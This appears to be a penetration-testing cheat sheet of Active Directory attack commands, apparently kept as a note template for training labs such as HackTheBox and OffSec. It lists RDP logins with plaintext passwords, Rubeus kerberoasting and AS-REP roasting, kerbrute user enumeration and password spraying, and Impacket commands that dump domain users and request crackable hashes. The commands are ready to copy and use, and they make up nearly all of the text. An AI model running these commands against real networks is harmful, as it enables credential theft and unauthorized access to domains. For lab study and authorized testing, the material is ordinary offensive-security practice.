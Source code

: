 
### xfreerdp
```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.3.26.190:3333 /cert:ignore
```

### rdesktop
```bash
rdesktop 192.168.216.165
```

### Rubeus
```bash
# kerberoast
./Rubeus.exe kerberoast /format:hashcat /outfile:mssql_hash

# asreproast
./Rubeus.exe asreproast  /format:hashcat /outfile:<FILE>
```

### kerbrute
```bash
# kerbrute username list: https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt

./kerbrute userenum --dc 10.10.x.x -d manager.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

./kerbrute userenum -d <% tp.frontmatter["DOMAIN"] %> --dc <% tp.frontmatter["DOMAIN"] %> /PATH/TO/FILE/<USERNAMES>
./kerbrute passwordspray -d <% tp.frontmatter["DOMAIN"] %> --dc <% tp.frontmatter["DOMAIN"] %> /PATH/TO/FILE/<USERNAMES> <% tp.frontmatter["PASSWORD"] %>
```


### Impacket
**Get AD Users**
```bash
impacket-GetADUsers -all -dc-ip 192.168.243.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192
```

**AS-REP Roasting**
```bash
# When we know that fsmith's hash is available(no password required)
impacket-GetNPUsers Egotistical-bank.local/fsmith -dc-ip 10.10.10.175 -request -no-pass

# When we don't know whos hashes are available and we want to use pete's credentials(correct username/password required)
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

**Kerberoasting**
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

